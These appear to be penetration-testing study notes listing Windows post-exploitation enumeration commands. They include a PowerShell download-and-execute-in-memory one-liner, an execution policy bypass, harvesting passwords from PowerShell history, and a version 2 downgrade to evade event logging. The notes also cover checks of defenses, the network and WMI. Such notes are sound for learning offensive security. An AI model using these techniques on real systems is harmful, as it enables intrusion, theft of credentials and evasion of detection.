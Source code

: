 * `systeminfo` → will print a summary of the hosts information for us in one tidy output

| Cmd-Let                                                                                                          | Description                                                                                                                                                                                                                                 |
| ---------------------------------------------------------------------------------------------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| Get-Module                                                                                                       | Lists available modules loaded for use.                                                                                                                                                                                                     |
| Get-ExecutionPolicy -List                                                                                        | Will print the https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about\_execution\_policies?view=powershell-7.2 settings for each scope on a host.                                                         |
| Set-ExecutionPolicy Bypass -Scope Process                                                                        | This will change the policy for our current process using the -Scope parameter. Doing so will revert the policy once we vacate the process or terminate it. This is ideal because we won't be making a permanent change to the victim host. |
| Get-Content C:\Users\<USERNAME>\AppData\Roaming\Microsoft\Windows\Powershell\PSReadline\ConsoleHost\_history.txt | With this string, we can get the specified user's PowerShell history. This can be quite helpful as the command history may contain passwords or point us towards configuration files or scripts that contain passwords.                     |
| Get-ChildItem Env:                                                                                               | ft Key,Value                                                                                                                                                                                                                                |
| powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('URL to download the file from'); "             | This is a quick and easy way to download a file from the web using PowerShell and call it from memory.                                                                                                                                      |

#### **Downgrade Powershell**

If not uninstalled, there can be older version of powershell. Powershell event logging was introduces as a feature with powershell 3.0 and forward.

If we can call Powershell version 2.0 or older, our action will not be logged into Event Viewer.

* `Get-host` → displays the version of current powershell
* `powershell.exe -version 2` → running version 2 of powershell.

1️⃣ \*\*Checking Defenses\*\*

* `PS C:\htb> netsh advfirewall show allprofiles` → Firewall checks
* `C:\htb> sc query windefend` → windows defender from cmd
* `PS C:\htb> Get-MpComputerStatus` → check the status and configuration settings

2️⃣ \*\*Am I Alone?\*\*

* `PS C:\htb> qwinsta` → display info about remote desktop services.

| Networking Commands          | Description                                                                                                      |
| ---------------------------- | ---------------------------------------------------------------------------------------------------------------- |
| arp -a                       | Lists all known hosts stored in the arp table.                                                                   |
| ipconfig /all                | Prints out adapter settings for the host. We can figure out the network segment from here.                       |
| route print                  | Displays the routing table (IPv4 & IPv6) identifying known networks and layer three routes shared with the host. |
| netsh advfirewall show state | Displays the status of the host's firewall. We can determine if it is active and filtering traffic.              |

3️⃣ \*\*Windows Management Instrumentation (WMI)\*\*

[Windows Management Instrumentation (WMI)](https://docs.microsoft.com/en-us/windows/win32/wmisdk/about-wmi) is a scripting engine that is widely used within Windows enterprise environments to retrieve information and run administrative tasks on local and remote hosts. For our usage, we will create a WMI report on domain users, groups, processes, and other information from our host and other domain hosts.

#### **Quick WMI checks**

| Command                                                                            | Description                                                                                            |
| ---------------------------------------------------------------------------------- | ------------------------------------------------------------------------------------------------------ |
| wmic qfe get Caption,Description,HotFixID,InstalledOn                              | Prints the patch level and description of the Hotfixes applied                                         |
| wmic computersystem get Name,Domain,Manufacturer,Model,Username,Roles /format:List | Displays basic host information to include any attributes within the list                              |